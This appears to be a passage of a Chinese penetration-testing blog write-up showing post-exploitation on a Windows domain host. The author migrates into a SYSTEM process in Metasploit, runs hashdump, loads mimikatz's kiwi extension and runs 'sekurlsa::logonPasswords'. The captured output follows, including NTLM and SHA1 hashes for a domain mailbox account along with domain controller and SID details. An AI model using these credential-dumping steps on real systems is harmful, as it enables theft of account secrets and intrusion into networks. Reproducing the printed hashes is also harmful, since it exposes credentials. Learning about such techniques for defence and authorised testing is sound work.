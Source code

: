 ![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYomWGXURnD6SyBZI3S59cBL4AKPze71WBJbbqzySfXrudK5KgLtOmCg/640?wx_fmt=png)

此处为 migrate 了一个低权限进程 切记 x64 system 权限

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYx83ia8FngmxmTw2UOZXqmibIjqsCDOj9vUY5uNqoyVKpZh0LYIAE7iaQA/640?wx_fmt=png)

Hashdump 为本机的密码 然后载入猕猴桃试试

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYKWH5ZUGoXw6wNfAiaxrdW8DmibUlNEv8RxMnQaPxKpCTrvSPFEtEQalA/640?wx_fmt=png)

然后就是佳哥教的 抓密码了 msf 自带以后没有猕猴桃了

Load kiwi

kiwi_cmd -f sekurlsa::logonPasswords

Authentication Id : 0 ; 20871772(00000000:013e7a5c)

Session           : NetworkCleartext from 0

User Name         : HealthMailbox3f7d5b8

Domain            : CNCAT

Logon Server      : 12SERVER-DC

Logon Time        : 2021/6/17 16:18:33

SID               :S-1-5-21-296591627-685496165-1408683996-1131

       msv:     

        [00000003] Primary

        * Username : HealthMailbox3f7d5b8

        * Domain  : CNCAT

        * NTLM    : 3fd9fdd66292ffe77e16137d5649ea17

        * SHA1    : 3acc7e64b7b354a1a8a51206bca488d514055b3a

       tspkg:   

       wdigest:

        * Username : HealthMailbox3f7d5b8

        * Domain  : CNCAT

        * Password : (null)

       kerberos:     

        * Username : HealthMailbox3f7d5b8

        * Domain  : CNCAT.CC

        * Password : (null)

       ssp:

       credman:     
